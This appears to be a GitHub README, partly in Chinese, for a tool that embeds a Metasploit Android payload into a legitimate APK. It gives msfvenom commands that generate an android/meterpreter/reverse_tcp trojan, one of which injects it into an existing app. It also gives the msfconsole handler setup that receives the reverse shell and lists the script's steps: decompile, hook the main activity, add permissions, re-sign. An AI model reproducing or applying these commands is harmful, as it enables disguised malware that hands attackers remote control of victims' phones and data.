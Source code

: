 ## AndroidEmbedIT可以配合meterpreter生成的木马msfvenom -p android/meterpreter/reverse_tcp lhost=192.168.169.76 lport=445 R > Desktop/123.apk进行
或（msfvenom -x you .apk -p android/meterpreter/reverse_tcp LHOST=youip LPORT=5554 -o aa.apk

参数说明：

you.apk (刚才下载的app名称)

youip:(你的ip地址 通过ipconfig命令查看)

5555:本地端口

-o:生成新的APP 这里生成的是aa.apk


）


监听
root@kali:~# msfconsole
msf > use exploit/multi/handler
msf exploit(handler) > set payload android/meterpreter/reverse_tcp #设置payload
payload => android/meterpreter/reverse_tcp
msf exploit(handler) > set lhost 192.168.169.76 #kali的IP
lhost => 192.168.169.76
msf exploit(handler) > set lport 445 #对应刚才设的端口
lport => 445
msf exploit(handler) > exploit


This script performs the following actions to embed a Metasploit
generated APK file into another legitimate APK.

* decompiles a Metasploit APK file, and any other APK file.
* locates the main Activity entrypoint in the APK being targeted
* copies all Metasploit APK staging code to destination APK
* adjusts the main Activity entrypoint smali file with an *invoke-static* call to kick off the Metasploit stage.
* adjusts the final AndroidManifest.xml with appropriate added permissions
* recompiles, and resigns the final APK file.

All actions are performed within the "~/.ae" directory which is created
during runtime.   The script requires that *keytool*, *jarsigner*, and *apktool*
are installed.  A KALI distribution will work well to run this script on.

